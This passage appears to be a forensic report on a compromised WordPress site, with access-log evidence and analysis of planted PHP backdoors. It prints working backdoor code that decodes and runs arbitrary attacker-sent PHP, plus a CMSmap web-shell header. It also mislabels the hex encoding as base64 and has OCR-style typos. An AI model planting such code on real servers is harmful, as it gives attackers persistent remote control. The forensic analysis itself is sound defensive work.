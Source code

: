**Evidence:**
```
Apache Access Log:
217.215.115.218 - - [24/Oct/2025:06:24:25 +0800] "POST /wp-login.php HTTP/1.1" 302
217.215.115.218 - - [24/Oct/2025:06:24:26 +0800] "POST /wp-admin/async-upload.php HTTP/1.1" 200
```

**How Credentials Were Compromised:**
- Likely weak/reused password
- No Two-Factor Authentication (2FA) enabled
- Possible credential stuffing attack from previous data breach
- Account created day before (Oct 23): user "root" indicates pre-planned attack

### 2. Malware Analysis

#### A. PHP Backdoors (3 variants found)

**Type 1: Obfuscated hex2bin Backdoor**
```php
// File: wp-content/plugins/convertpro/assets/css/cloud.php
<?php
//<PHPDATA>fputs_xor;52;symbol</PHPDATA>
if(isset($_POST["symbol"])?true:false):
    $_0=hEX2BiN($_POST["symbol"]);
    $_1="";
    foreach(sTR_SplIT($_0) as$_2):$_1.=cHr(Ord($_2)^(0126+010-052));endforeach;
    $_3=ArRay_filTEr([sYs_GEt_TEMp_dIR(),"/dev/shm","/var/tmp",...]);
    foreach($_3 as$_4):
        if(max(0,Is_diR($_4)*Is_WriTABLE($_4))):
            $_5=SprInTF("%s/.ptr",$_4);
            if($_6=fopen($_5,"w")):
                FWRiTE($_6,$_1);fClOse($_6);
                include $_5;UNLINK($_5);exit;
            endif;
        endif;
    endforeach;
endif;
```
**Functionality:**
- Receives base64-encoded commands via POST["symbol"]
- XORs payload with key 52 (obfuscation)
- Writes to `/tmp/.ptr` temporary file
- Executes code via `include`
- Self-destructs (unlinks) after execution

**Type 2: CMSmap Shell**
```php
// File: wp-content/plugins/avmphku/index.php
<?php
/**
 * Plugin Name: CMSsmap - WordPress Sh21ll
 * Plugin URI: https://github.com/msx/cmfsmap/
 * Description: Simple WordPress Shs1l
 * Version: 1.2
 */
error_reporting(0);
ignore_user_abort(true);
include('log.db');
```
**Functionality:**
- Well-known WordPress exploitation tool (CMSmap)
- Full shell access to server
- Persistent backdoor for re-entry
